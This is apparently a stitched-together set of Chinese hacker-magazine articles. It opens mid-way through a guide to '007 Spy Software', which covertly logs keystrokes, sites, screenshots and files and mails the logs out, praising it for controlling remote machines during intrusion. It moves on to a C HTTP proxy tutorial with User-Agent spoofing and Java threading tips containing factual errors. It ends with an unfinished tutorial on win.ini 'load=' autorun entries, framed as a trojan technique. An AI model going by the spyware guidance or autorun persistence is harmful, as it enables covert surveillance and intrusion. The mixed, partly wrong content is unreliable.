

图2

点击“Log File Option”（日志文件选项）下的文件夹图标，在“浏览文件夹”对话框中选定文件存放的路径，有局域网的话，可以存放到“网上邻居”中的另一台电脑上，这样更安全。本例我是存放到我四楼的电脑上的。如果您觉得这样还不安全的话，可以点击“Advanced Settings”（高级设置）下的“Advanced Option”按钮把日志文件存放到Email信箱或FTP服务器上（图2）。



图3

在图3的“Email address”框中输入邮箱地址，“SMTP Server”框中输入发送邮件的服务器地址，一般是邮箱地址“@”符号后面的地址，前面再加上“smtp.”，如网易免费邮箱的SMTP服务器地址是“smtp.163.com”。最后在“Username”和“Password”框中输入邮箱用户名和密码。点击“Test Now”按钮测试设置是否正确。如有FTP server，也可以设置FTP服务器来接收。随着截获的文件越多，文件的占有容量也越大，必须设置一个容量上限，在“Limit Log File Size To”框中给个具体数字设定，最好是硬盘中一个分区的剩余容量。一切设置停当，下面就看“007”查看信息的手段了。

### 007：查看信息的手段

这里我们以快捷键查看信息为例，按下“Ctrl+Shift+M”组合键进入007 Spy Software主界面。

- 1．查看键盘信息

点击“Keystrokes Log”，在右边表格中列出了使用电脑期间所按下的每个键（图4）。选中一个按键单击鼠标右键可以拷贝到剪贴板上，这一功能适用所有信息查看功能。

- 2．查看网页信息



图4

点击“WebSites Log”，在右边表格中列出了使用电脑期间所访问的每个网页。

- 3．查看应用程序信息

点击“Applications Log”，在右边表格中列出了使用电脑期间所运行的每个应用程序。

- 4．查看屏幕信息

点击“Screenshots Log”，在右边表格中列出了使用电脑期间所打开的每个窗口。

- 5．查看文件/目录信息

点击“File/Folders Log”，在右边表格中列出了使用电脑期间所访问的每个文件和目录。

怎么样，007的功能还是比较强大的吧？只要是你灵活地掌握了上面功能的实现方法，相信不管是在网络管理还是在入侵中就都能非常方便地控制远程的计算机了！

## HTTP 代理服务器



> Socket、HTTP是现在最普遍的东西了，很多朋友都对它有一定的了解，或许大家还专门使用sniffer来抓取网络中传输的数据包分析过，但是HTTP中的具体细节可能并不是每一个兄弟都明白。另外，喜欢编程的你，是否也曾希望尝试一下代理服务器的编写呢？！——所有的疑问都将在本文找到答案！

**适合对象：** 编程爱好者，对HTTP协议有所了解的朋友

**前置知识：** HTTP，C语言基础知识

如果你已经有相当的HTTP基础，那么，你完全可以跳过这个枯燥的原理性部分，直接转到下面的实战部分（第四部分）。限于篇幅和HTTP协议本身的复杂性，本文不可能把全部的协议内容照搬一遍。因此，需要对此深入了解的朋友，可以参考RFC（Request For Comments——请求注解）的1945、2045、2068、2616号文档（这里推荐一个较好的RFC网站：http://www.faqs.org/rfcs/）。

HTTP（HyperText Transfer Protocol——即超文本传输协议）是应用级协议（TCP/IP协议族分为链路层、网络层、运输层、应用层4层），也是组成WWW（World Wide Web——万维网）的基础。

HTTP是一种请求／响应协议。HTTP客户端连接服务器，提交所需要的请求（如方法、资源（URL）、协议版本和一些附加的特殊信息等），服务器产生应答请求（如协议版本、响应代码、服务器信息等）。它也是一种无状态协议，也就是说在一次请求／响应之后，客户端和服务器的连接将被关闭，双方没有维护这个连接的状态。另外，它还是一种可靠的协议，因为它使用了可靠的TCP（UDP是不稳定的）连接。HTTP协议通讯的时候，通常使用端口80。



### HTTP 代理简述

HTTP的创造是惊人的，它提供了用户浏览器与Web服务器之间的通讯规则，一个基于HTTP协议上的应用实例是HTTP代理服务器（PROXY）。代理服务器是一种在客户端（Client）和服务器（Server）之间的程序（C/S模式），它同时扮演着客户端（对服务器而言）和服务器（对客户端而言）的角色。HTTP代理服务器把客户端发来的请求传递到服务器（也可能是下一个代理），接受服务器发来的响应报文转发到客户端。有的时候，代理需要根据实际情况更改发送来的请求报文。代理服务器软件一般用于内网经过的网关、带有防火墙的服务器，用来对数据进行双向转发；实现处理用户代理尚未实现的转发功能。

### HTTP 报文简识

我们用一个连接中的HTTP交换报文来解释报文中常用字段的含义。只介绍那些有关的和一些重要的首部字段（这些首部字段太多了，更多的认识，可以参考RFC文档的1945、2045、2046、2616号）。也就是写一个HTTP代理服务器需要知道的基本字段。

一个普通请求报文如下：

```http
GET / HTTP/1.1
Accept: image/gif, image/x-xbitmap, image/jpeg, image/pjpeg, application/x-shockwave-flash, */*
Accept-Language: zh-cn
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible, MSIE 6.0, Windows NT 5.1; .NET CLR 1.1.4322)
Host: www.gedao.com
Connection: Keep-Alive
```

首先的第一行是请求行（也可以说动作、方法——Request-Line），通常的格式为：

| 方法 | 作用描述 |
|---|---|
| GET | 请求指定资源 |
| HEAD | 仅仅请求报文头部信息 |
| POST | 请求服务器接受客户端指定的数据 |
| PUT | 用从客户端请求的数据替换服务器上指定数据 |
| DELETE | 删除服务器上指定的资源 |
| OPTIONS | 服务器性能参数信息 |

其实真正常用的也只有GET和POST两个（HEAD一般用来确认主机能响应信息），GET方法用于取得服务器资源，比如网页。POST方法用于提交某些信息给服务器，比如大家常泡的论坛，发表评论就用到了POST。然后一个空格后是你要获取的资源路径（Request-URL），这个报文中是根目录（“/”）。接下来还有一个空格后就是使用的协议版本号了，这里是“HTTP/1.1”。

以上第一行之后的字段稍后连同响应报文一起说明。需要注意的是，GET方法发送的只有一个请求头部信息（只有请求行和响应的字段）。而POST除了发送头部信息外，紧跟着的还有一个空行间隔和一些数据信息。

之后我们会得到服务器的响应信息，不同的服务器有不同的回应信息：

```http
HTTP/1.1 200 OK
Server: Microsoft-IIS/5.0
Content-Location: http://www.gedao.com/index.htm
Date: Thu, 18 Dec 2003 09:31:41 GMT
Content-Type: text/html
Accept-Ranges: bytes
Last-Modified: Sun, 14 Dec 2003 06:41:48 GMT
Content-Length: 1217
```

第一行是服务器响应信息（Status-Line），首先是协议版本（这里是HTTP/1.1），然后一个空格后跟着的就是状态码了，这里列出一点状态码：

| 客户端错误 | 客户端成功 | 重定向 | 服务器错误 |
|---|---|---|---|
| 400：错误请求 | 200：请求成功 | 300：多路选择 | 500：服务器内部错误 |
| 401：需要认证 | 201：新资源创建 | 301：已被转移 | 501：没有实现 |
| 403：不明禁止 | 202：请求被接受 | 302：暂时转移 | 502：网关无效响应 |
| 404：没有找到 | 204：无内容 | 305：使用代理 | 503：服务暂时失效 |

大家肯定看到了上面的报文中除了首行外有相当一部分的字段信息，这些信息就是所谓的首部信息字段（Headers，也叫报文头信息）。这些字段的数量是可变的，字段名和具体分字段值用一个空格分开，字段名不分大小写，是用来向发送方提供某些附加的信息，每个信息占一行，结尾用CRLF（回车换行——“\r\n”）字符表示。以下是各字段名和相应描述：

| 字段名 | 描述 |
|---|---|
| Accept | 字段是客户端接收的数据（资源）类型 |
| Accept-Language | 客户端接受的首选语言类型 |
| Accept-Encoding | 字段是客户端可接受的内容编码 |
| User-Agent | 字段是客户端信息 |
| Host | 字段是目的主机名称 |
| Connection | 字段是连接状态 |
| Server | 服务器信息 |
| Content-Location | 获取的资源在服务器上的位置 |
| Date | 服务器时间 |
| Content-Type | 本次传送的数据的类型（RFC2046） |
| Accept-Ranges | 本次传送的数据的长度单位 |
| Last-Modified | 这个数据的最后修改时间 |
| Content-Length | 本次传输的数据的长度 |

其实写一个代理，知道这些字段是干什么的也就够了。根据HTTP代理服务的定义，我们就可以开始写了。

### 代理服务器的编写

看了这么多的原理，相信大家对HTTP也有了一个大概的了解，下面我就用代码来说明一个HTTP代理服务器的工作过程。这次，我们只写经常用到的GET、POST、HEAD 3个动作。全部的代码都是用C写的，边说边写，BC编译器下通过。

> **注1**  
> 由于篇幅关系，代码、变量、函数声明等等都不可能完整，完整源代码和EXE文件见光盘，大家可以对照着看。

首先是一个建立环境的过程，代理服务器使用的端口可以任意选择，但是常用的是80、8080、3128等端口。我们这里以8080为例作为监听端口：

```c
ServerStk.sin_family = AF_INET;
ServerStk.sin_port = htons(8080);
ServerStk.sin_addr.S_un.S_addr = INADDR_ANY; // 任何地址

while(1)
{
    ServerBegin[i] = accept(ProServer,
        (struct sockaddr *)&ClientCont, &ServerStkSize);
    if(ServerBegin[i] == INVALID_SOCKET)
        return 1;
    // 建立用户线程，为每一个用户建立独立的线程
}
```

```c
if(CreateThread(NULL, 0,
    ProClientThread, (LPVOID)&ServerBegin[i], 0,
    &funid) == 0)
    continue;

// 接下来转入 ProClientThread 函数，处理每个用户的服务
char *ReceiveBuf = (char *)malloc(sizeof(char) * MAX_CHARBUFF);
char *SenderBuf = (char *)malloc(sizeof(char) * MAX_CHARBUFF);
// 新建两个缓冲器，用来发送和接受数据
DataLen = recv(ClientConSock, ReceiveBuf, MAX_CHARBUFF, 0);
// 用户代理，肯定首先是用户发送的报文。
if(DataLen != SOCKET_ERROR && DataLen != 0)
{
    // 判断是何种服务器动作
    if(!strncmpi(ReceiveBuf, "GET ", 4))
```

这里的判断过程我就不详细说明了（参考光盘中代码），接下来的步骤就是请求报文的首行的分析。因为发送给代理服务器的报文首部中的那个Request-URL（资源路径）是完整的路径。比如：http://www.gedao.com/index.htm。而发给目的主机的报文则是根目录开始的相对路径，如：/index.htm。如果说有需要注意的，那就是这个字段了，其他字段可以不作修改。

```c
if(strncmpi(ReceiveBuf+SendLen, "http://", HEADLEN))
// 取得报文中 “http://” 字样的位置
char *Getfp = Get3Chars(ReceiveBuf+SendLen+HEADLEN, &HedLen);
// 获取主机名称，也就是 “http://” 和 “/” 之间的数据；如：www.gedao.com
memcpy(HeadBuf, ReceiveBuf+SendLen+HEADLEN, HedLen);
// 拷贝 IP 或者域名信息，也就是上一步中的数据
memcpy(SenderBuf+SendLen, Getfp, DataLen-HedLen-HEADLEN);
// 简单构造一个去掉了域名的请求报文，供发送给服务器用。
```

接下来的SendHeadData函数的作用是取得服务器的IP，然后建立连接，并把第一次接收到的数据发送给服务器：

```c
SOCKET ServerSocket = GetServerAddr(&Msg, DataLen);
// GetServerAddr 函数即是和服务器建立连接的函数，待会看这个函数
ChangeSysInfo(Msg);
// 这个函数可有可无，是用来修改客户端提交过来的报文的，隐藏你的信息
if(send(ServerSocket, Msg, DataLen, 0) == SOCKET_ERROR)
// 发送第一次的数据，注意，这个数据是去掉 http://+域名(IP) 后的
```

下面，先来看看GetServerAddr函数里面到底做了什么：

```c
char *ip = Msg;
for(int i = 0; i < MAX_HOSTNAME && *ip != ':' && *ip != '\0'; ip++)
    HostIp[i] = *ip++;
// 如果有端口，则停下
if(*ip == ':')
    HostPort = atoi(ip+1);
else
    HostPort = DEEPORT;
// 取出端口信息，端口通常是在域名（IP）的冒号后面；如果没有，就用默认的 80
// 下面开始申请并填充结构
ServerAddr.sin_family = AF_INET;
ServerAddr.sin_port = htons(HostPort);
if(HostIp[0] >= '0' && HostIp[0] <= '9')
// 这里开始是从域名获取 IP（如果是域名的话）
...
if(setsockopt(ServerSocket, SOL_SOCKET, SO_RCVTIMEO, (char *)&time_out, sizeof(time_out)) == SOCKET_ERROR)
// 这里是设置超时的。
if(connect(ServerSocket, (SOCKADDR *)&ServerAddr, sizeof(ServerAddr)) == SOCKET_ERROR)
// 这里是连接往服务器
```

发送完了数据，我们就可以返回那个用户主线程。这个时候就可以判断，如果是GET和HEAD的客户端请求，就只要接受服务器发来的信息，再传给客户端，完成了之后，就可以关闭这个连接（HTTP没有保持这个连接）。如果是POST模式，那么就要看看客户端的数据到底发送完毕没有，如果没有，那么就必须先把客户端的数据全部先转发到服务器去，然后再从服务器接受回应数据，转发给客户端，最后再关闭这个连接。

```c
if(flags == 1 || flags == 2)
    RecvSendData(ServerSocket, ClientConSock, SenderBuf);
// 接受服务器发来的数据
下面来看看 RecvSendData 函数写的是什么：
// 从 a 处接受信息发往 b 处
int sendlen = 100;
while(sendlen > 0)
{
    if((sendlen = recv(Rsck, SendBuf, MAX_CHARBUFF, 0)) <= 0)
        break; // 接收
    if(send(Ssck, SendBuf, sendlen, 0) < 0)
        break; // 发送
}
```

> 本文中所有完整源代码及可执行文件均发在光盘中，大家可以参考学习或加以修正。

到了这里，就和服务器建立了连接，就可以把刚才的那个第一次接收的数据发送给服务器了（注意，是把Request-URL经过了修改之后的那些数据）：

这个函数其实是一个转发的函数，这个函数不但可以用做接受服务器数据转发到客户端，也可以用作POST模式下从客户端接受数据发送往服务器。我们可以建立一个线程来交换两个SOCKET句柄，调用这个函数，并同时用相反的SOCKET句柄再调用这个函数，就可以实现POST转发了。

```c
// 建立线程来接受 POST 剩下的数据，然后调用函数接受服务器发来的数据
if(CreateThread(NULL, 0, RSThread, (LPVOID)&SendSck, 0, &thrid) != 0)
    RecvSendData(ServerSocket, ClientConSock, SenderBuf);
// RSThread 线程里面就是把接受的句柄交换，然后再建立 RecvSendData 函数
```

```c
struct sendofsck SendSck = {0};
memcpy((void*)&SendSck, lpParam, sizeof(SendSck));
RecvSendData(SendSck.Rsck, SendSck.Ssck, SendSck.Buff);
```

到这里，一个简单的 HTTP 代理服务器就基本完成了，不到 200 行代码。实现了 GET、POST、HEAD 3 种方式。呵呵，你完全可以用它来试试上网、逛论坛，速度还是很快的（因为没有用一些速度较慢的函数，如：strstr）。这样的 HTTP 代理服务器还是很简单的。在简单前提下，就萌发了一点点修改念头（代理可以修改数据后转发），下面就看看 ChangeSysInfo 函数里面是什么内容：

```c
char HostBan[] = "User-Agent: Mozilla/4.0 (compatible; MSIE ";
char *fp = strstr(Msg, HostBan);
if (fp != NULL) strncpy(fp + strlen(HostBan), "8.8, Windows ZV", 15);
```

这段代码的意思是找到包括“User-Agent: Mozilla/4.0 (compatible; MSIE 6.0, Windows NT”这样的字段，然后修改成所要的值。这样，一些服务器就会误以为这些是你的机器参数，从而达到隐藏你真实系统和 IE 信息的目的。当然，更改了系统信息可能导致另外一些问题，比如，微软的网站可能就不能提供一些服务了。我的动网论坛显示的是：Windows ZV 5.1 IE8.8。呵呵。

### 后记

> 全篇通过对 HTTP 协议的说明和运用，写出了一个简单的 HTTP 代理服务器，就几点问题说明一下：代理服务器这类程序占用资源比较大，所以那些缓冲器的设置要科学，尽量做到够用。另外共用代理服务器要求速度极高，除了硬件之外，程序的结构也很重要，尽量少用一些没有必要的速度缓慢的函数，如不要用 strstr 扫整个头部信息，还有错误处理要完善。其实最重要的还是协议，你根据协议写出来的程序，是通用的（*nix & windows），这个 HTTP 代理可以说是不正规的，但是它还是可以用的，嘿嘿。最后希望小虾能从这里看懂些东西，大虾能斧正。

## tips

## 多线程程序设计要点

- 1. 多线程中有主内存和工作内存之分，在 JVM 中，有一个主内存，专门负责所有线程共享数据，而每个线程都有它自己私有的工作内存，主内存和工作内存分别在 JVM 的 stack 区和 heap 区。
- 2. 线程的状态有“Ready”、“Running”、“Sleeping”、“Blocked”和“Waiting”几个状态，“Ready”表示线程正在等待 CPU 分配允许运行的时间。
- 3. 线程运行次序并不是按照我们创建它们时的顺序来运行的，CPU 处理线程的顺序是不确定的，如果需要确定，那么必须手工介入，使用 setPriority() 方法设置优先级。
- 4. 我们无从知道一个线程什么时候运行，两个或多个线程在访问同一个资源时，需要 synchronized。
- 5. 每个线程会注册自己，实际上还存在着对它的引用，因此，垃圾回收机制对它就“束手无策”了。
- 6. Daemon 线程区别一般线程之处是：主程序一旦结束，Daemon 线程就会结束。
- 7. 一个对象中的所有 synchronized 方法都共享一把锁，这把锁能够防止多个方法对公用内存同时进行的写操作。synchronized static 方法可在一个类范围内被相互间锁定起来。
- 8. 对于访问某个关键共享资源的所有方法，都必须把它们设为 synchronized，否则就不能正常工作。

Socket 程序的自动加载技术经常被采用在一些病毒或木马软件中，这是一种非常常见的一种方式，本文就是从这一点入手，深入剖析了 INI 文件的程序自动加载技术。本文不仅详细介绍了各种常用的 INI 文件操作函数，而且自己动手写了两个程序，介绍了 INI 文件操作函数的注册表关联技术，非常有实际操作价值！喜欢编程的朋友赶快往下看咯！

- 适合对象：编程技术爱好者
- 前置知识：C 语言，INI 基础知识



## 文件读写技术及程序自动加载应用剖析

文／connie

INI 文件是 Windows 系统中一类比较重要的文件，通常用来存放系统或者应用程序的配置信息，以方便系统或者应用程序在初始化时再次读入。比如 Windows 系统中的配置文件 win.ini 和 system.ini，它们就主要存放系统启动或用户登录时的系统信息。这项功能在方便了系统配置的同时，也为非法程序的自动运行提供了可乘之机。显然，这类文件的重要性应该引起我们的重视。但是对于这样的 ini 文件的读写操作却与普通文本文件有着种种的不同，尤其体现在编程实现上。笔者曾经尝试用手动更改的方法在文件中加入一些项，使得自己的程序能够在初始化时自动运行，但是却没有成功，最后还是藉由编程的方法来实现了。这里主要涉及到一些 API 函数，而这些函数又往往不被人们所熟知，本文的任务就是在介绍这些函数的同时，用简单的程序作了示例，下面我们言归正传。

先来看几个往配置文件中写入信息的函数：

- （1）WritePrivateProfileSection() 用来在 ini 文件中直接向指定区域写入键和值的信息，其原型如下：

```c
BOOL WritePrivateProfileSection(
    LPCTSTR lpAppName,    // 指向指定字段的字符串
    LPCTSTR lpString,     // 指向要写入的键与值字符串
    LPCTSTR lpFileName    // 指向文件名称字符串；如果不包含完整路径，则在 Windows 目录下创建
);
```

用法示例：

```c
WritePrivateProfileSection(_T("windows"), _T("load=c:\\winnt\\notepad.exe"), _T("c:\\winnt\\win.ini"));
```

- （2）WritePrivateProfileString() 与上一个函数的不同点在于其将键和值分开了，原型如下：

```c
BOOL WritePrivateProfileString(
    LPCTSTR lpAppName,    // 指向指定字段的字符串
    LPCTSTR lpKeyName,    // 指向指定键的字符串
    LPCTSTR lpString,     // 指向指定值的字符串
    LPCTSTR lpFileName    // 指向文件名称字符串
);
```

用法示例：

```c
WritePrivateProfileString(_T("windows"), _T("load"), _T("c:\\winnt\\notepad.exe"), _T("c:\\winnt\\win.ini"));
```

- （3）WritePrivateProfileStruct() 与前面两个的不同在于文件尾有校验和，原型如下：

```c
BOOL WritePrivateProfileStruct(
    LPCTSTR lpszSection,   // 指向指定字段的字符串
    LPCTSTR lpszKey,       // 指向指定键的字符串
    LPVOID lpStruct,       // 指向存放要加入的数据的缓冲区，如果为 NULL，则删除键
    UINT uSizeStruct,      // 缓冲区大小，以字节为单位
    LPCTSTR szFile         // 以零结尾的文件名称字符串。如果为空，则向 win.ini 写入
);
```

下面来看几个对应的从 ini 文件获取信息的 API 函数，上面已经说得很详细了，这里只说其中两个：

```c
DWORD GetPrivateProfileString(
    LPCTSTR lpAppName,          // 指向指定字段的字符串
    LPCTSTR lpKeyName,          // 指向键的字符串
    LPCTSTR lpDefault,          // 如果 INI 文件中没有前两个参数指定的字段名或键名，则将此值赋给变量
    LPTSTR lpReturnedString,    // 存放 INI 文件中值的目的缓冲区
    DWORD nSize,                // 目的缓冲区的大小，以字节为单位
    LPCTSTR lpFileName          // 指向 INI 文件名称的字符串
);

UINT GetPrivateProfileInt(
    LPCTSTR lpAppName,          // 指向指定字段的字符串
    LPCTSTR lpKeyName,          // 指向键的字符串
    INT nDefault,               // 如果 INI 文件中没有前两个参数指定的字段名或键名，则将此值赋给变量
    LPCTSTR lpFileName          // 指向 INI 文件名称的字符串
);
```

用法示例：

```c
WritePrivateProfileStruct(_T("windows"), _T("load"), pBuffer, sizeof(pBuffer), _T("c:\\winnt\\win.ini"));
```

- （4）还有两个函数，是专门用来向 win.ini 文件写入的，函数原型如下：

```c
BOOL WriteProfileSection(
    LPCTSTR lpAppName,   // 指向指定字段的字符串
    LPCTSTR lpString     // 指向指定值的字符串
);

BOOL WriteProfileString(
    LPCTSTR lpAppName,   // 指向指定字段的字符串
    LPCTSTR lpKeyName,   // 指向指定键的字符串
    LPCTSTR lpString     // 指向指定值的字符串
);
```

程序示例 1：我们在这里建立了一个应用程序“App Name”，并且使用了一个 INI 文件“appname.ini”，在此 INI 文件中，我们写入如下内容：

```ini
[Section1]
FirstKey=It all worked out okay.
SecondKey=By golly, it works.
ThirdKey=Another test
```

代码分析如下：

